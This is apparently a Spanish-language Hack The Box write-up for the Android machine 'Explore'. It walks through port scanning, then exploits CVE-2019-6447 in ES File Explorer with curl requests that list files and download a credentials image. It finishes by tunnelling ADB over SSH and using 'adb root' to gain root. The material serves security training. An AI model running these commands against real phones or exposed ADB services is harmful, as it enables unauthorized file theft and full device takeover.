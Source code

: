 ```yaml
---
title: "Explore"
date: 2022-08-28T20:58:19-05:00
description: "He regresado por la revancha"
type: "post"
tags: ["HTB","writeups","Android"]
showTableOfcontents: true
---
```

![Banner](/images/Explore.png)
# Enumeración
Realizando un escano de puertos identificamos cuatro puertos abiertos.
```BASH
└─$ sudo nmap -sS --min-rate 5000 -vvv -open -p- -n -Pn -oG nmap/all_ports 10.10.10.247
[sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower. 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-29 22:36 EDT
Initiating SYN Stealth Scan at 22:36
Scanning 10.10.10.247 [65535 ports]
Discovered open port 42135/tcp on 10.10.10.247
Discovered open port 59777/tcp on 10.10.10.247
Discovered open port 34039/tcp on 10.10.10.247
Discovered open port 2222/tcp on 10.10.10.247
Completed SYN Stealth Scan at 22:37, 15.77s elapsed (65535 total ports)
Nmap scan report for 10.10.10.247
Host is up, received user-set (0.092s latency). 
Scanned at 2022-08-29 22:36:54 EDT for 16s
Not shown: 65530 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
2222/tcp  open  EtherNetIP-1 syn-ack ttl 63
34039/tcp open  unknown      syn-ack ttl 63
42135/tcp open  unknown      syn-ack ttl 63
59777/tcp open  unknown      syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.90 seconds
           Raw packets sent: 78350 (3.447MB) | Rcvd: 78347 (3.134MB)
```
Procedemos a realizar un escaneo específico de los puertos encontrados para tratar de averiguar que servicios estan funcionando en los puertos encontrados.
```BASH
└─$ nmap -sCV -p 2222,34039,42135,59777 -Pn -oN nmap/targeted 10.10.10.247       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-29 22:47 EDT                                               
Nmap scan report for 10.10.10.247                 
Host is up (0.12s latency).                                         
PORT      STATE SERVICE VERSION                                           
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)                          
34039/tcp open  unknown                                           
| fingerprint-strings:                             
|   GenericLines:                                     
|     HTTP/1.0 400 Bad Request                                           
|     Date: Tue, 30 Aug 2022 02:47:38 GMT                                               
|     Content-Length: 22                                                
|     Content-Type: text/plain; charset=US-ASCII  
|     Connection: Close                  
|     Invalid request line:                 
|   GetRequest:                          
|     HTTP/1.1 412 Precondition Failed       
|     Date: Tue, 30 Aug 2022 02:47:38 GMT         
|     Content-Length: 0                   
|   HTTPOptions:                        
|     HTTP/1.0 501 Not Implemented             
|     Date: Tue, 30 Aug 2022 02:47:43 GMT   
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 30 Aug 2022 02:48:00 GMT
|     Content-Length: 26   
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 30 Aug 2022 02:47:43 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 30 Aug 2022 02:48:00 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 30 Aug 2022 02:48:01 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 30 Aug 2022 02:48:01 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
...
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done -- 1 IP address (1 host up) scanned in 111.19 seconds
```
## Puerto 59777
Al buscar información sobre los puertos que no pudieron ser identificados, encontramos que el puerto 59777 está relacionado con el CVE-2019-6447 correspondiente a la aplicación ES File Explorer misma que sabemos esta ejecutandose en el dispositivo por el puerto 42135.

# Explotación
Podemos enviar peticiones al puerto 59777 con un comando a ejecutar por medio de json, por ejemplo:

```BASH
curl http://$TARGET:59777/ -d "{'command':listFiles}"
```

Los comandos aceptados son los siguientes:
- listFiles         
- listPics          
- listVideos        
- listAudios        
- listApps          
- listAppsSystem    
- listAppsPhone     
- listAppsSdcard    
- listAppsAll                 
- getDeviceInfo 

Listando las imagenes con el comando `listPics` encontramos el archivo `creds.jpg`.
```JSON
{
    {
    "name":"creds.jpg",
    "time":"4/21/21 02:38:18 AM",
    "location":"/storage/emulated/0/DCIM/creds.jpg", 
    "size":"1.14 MB (1,200,401 Bytes)"
    }
}
```
Para descargar la imagen simplemente hacemos una petición GET al path completo de la imagen.
```BASH
curl http://$TARGET:59777/storage/emulated/0/DCIM/creds.jpg -o creds.jpg
```

La imagen contiene credenciales, las cuales probamos para conectarnos por medio de SSH.

*Si no se puede establecer la conexión modificar el archivo `~/.ssh/config` con lo siguiente:*
```
host 10.10.10.247
    HostkeyAlgorithms +ssh-rsa
    PubkeyAcceptedAlgorithms +ssh-rsa
```
Al conectarnos por SSH podemos acceder a la flag de usuario localizada en el directorio `/storage/emulated/0`
```BASH
:/storage/emulated/0 $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/storage/emulated/0 $ ls
Alarms  DCIM     Movies Notifications Podcasts  backups   user.txt 
Android Download Music  Pictures      Ringtones dianxinos
```
# Escalación de Privilegios

Enumeramos los puertos TCP que esten en escucha.
```BASH
:/ $ ss -antl
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      50           *:59777                    *:*                  
LISTEN      0      8       [::ffff:127.0.0.1]:38535                    *:*                  
LISTEN      0      50       [::ffff:10.10.10.247]:40107                    *:*                  
LISTEN      0      50           *:2222                     *:*                  
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      10           *:42135                    *:*    
```
Observando los puertos disponibles encontramos el puerto 5555, correspondiente al debugger en android, entonces podemos hacer un tunnel a tráves de ssh para así interactuar con la herramienta adecuada.

```BASH
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555
```

Ya en nuestro terminal podemos conectarnos mediante adb y forzar el acceso usuario root desde la misma herramienta.
```BASH
└─$ adb connect localhost:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to localhost:5555
└─$ adb -s localhost:5555 root # Forzamos el acceso a root
restarting adbd as root
└─$ adb -s localhost:5555 shell
x86_64:/  id          
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
```
Y listo tenemos acceso como root

La flag de root la encontramos en el directorio `/data`.

# Referencias
[CVE-2019-6447 - ExploitDB](https://www.exploit-db.com/exploits/50070)

[Port 5555 - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge)
